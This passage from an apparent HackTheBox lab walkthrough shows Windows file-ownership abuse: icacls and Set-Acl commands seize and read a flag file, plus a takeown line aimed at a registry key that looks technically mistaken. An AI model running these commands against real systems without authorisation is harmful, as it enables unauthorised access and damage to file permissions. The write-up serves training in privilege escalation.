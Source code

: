 #### 6. Access Control Modification
```cmd
# Grant full permissions to current user
icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F

# Verify permissions granted:
processed file: C:\TakeOwn\flag.txt
Successfully processed 1 files; Failed processing 0 files
```

#### 7. Flag Retrieval
```powershell
# Read flag contents
cat 'C:\TakeOwn\flag.txt'
# OR
Get-Content 'C:\TakeOwn\flag.txt'

# Submit the flag content found in the file
```

### Alternative Methods

#### Manual ACL Manipulation
```powershell
# Using Get-Acl/Set-Acl for more granular control
$acl = Get-Acl 'C:\TakeOwn\flag.txt'
$acl.SetOwner([System.Security.Principal.WindowsIdentity]::GetCurrent().User)
Set-Acl -Path 'C:\TakeOwn\flag.txt' -AclObject $acl
```

#### Registry Key Takeover
```cmd
# Take ownership of registry keys (if applicable)
takeown /f "HKLM\SOFTWARE\TargetKey" /r
```

## ⚠️ Impact & Considerations

### Destructive Nature
```cmd
# HIGH RISK ACTIVITIES:
- Live web.config file modification
- Critical system file ownership changes  
- Deep directory structure modifications
- Service configuration file changes
```

### Reversion Challenges
```cmd
# DIFFICULT TO REVERT:
- Nested subdirectory permission changes
- Service account ownership restoration
- Complex ACL structure reconstruction
```
